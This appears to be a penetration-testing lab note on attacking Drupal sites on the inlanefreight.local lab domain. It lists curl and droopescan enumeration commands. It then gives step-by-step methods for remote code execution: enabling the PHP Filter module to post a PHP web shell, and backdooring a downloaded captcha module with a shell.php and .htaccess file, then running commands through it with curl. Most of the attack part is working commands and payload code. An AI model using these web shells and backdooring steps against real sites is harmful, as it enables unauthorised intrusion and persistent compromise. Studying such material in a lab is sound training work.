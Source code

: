 # Drupal Attack

### Discovery/Footprinting

```shell-session
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

```shell-session
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```
droopescan scan drupal -u http://drupal-qa.inlanefreight.local
```

### Attacking Drupal

#### Leveraging the PHP Filter Module

* after login select php filters

```
http://drupal-qa.inlanefreight.local/#overlay=admin/modules
```

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From here, we could tick the check box next to the module and scroll down to `Save configuration`. Next, we could go to Content --> Add content and create a `Basic page`.

```
http://drupal-qa.inlanefreight.local/#overlay=node/add
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

```
http://drupal-qa.inlanefreight.local/#overlay=node/add/page
```

#### From version 8 onwards,

* the [PHP Filter](https://www.drupal.org/project/php/releases/8.x-1.1) module is not installed by default.
* To leverage this functionality, we would have to install the module ourselves.

```shell-session
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

* Once downloaded go to `Administration` > `Reports` > `Available updates`.

```
http://drupal.inlanefreight.local/admin/reports/updates/install
```

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* From here, click on `Browse,` select the file from the directory we downloaded it to, and then click `Install`.
* Once the module is installed, we can click on `Content` and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select `PHP code` from the `Text format` dropdown.

#### Uploading a Backdoored Module

* Drupal allows users with appropriate permissions to upload a new module.
* A backdoored module can be created by adding a shell to an existing module

```shell-session
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
```

```shell-session
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a PHP web shell with the contents:

```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```

* Next, we need to create a .htaccess file to give ourselves access to the folder.
  * This is necessary as Drupal denies direct access to the /modules folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```shell-session
mv shell.php .htaccess captcha
```

```shell-session
tar cvf captcha.tar.gz captcha/
```

* Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar
  * Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install`&#x20;
  * Browse to the backdoored Captcha archive and click `Install`.

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
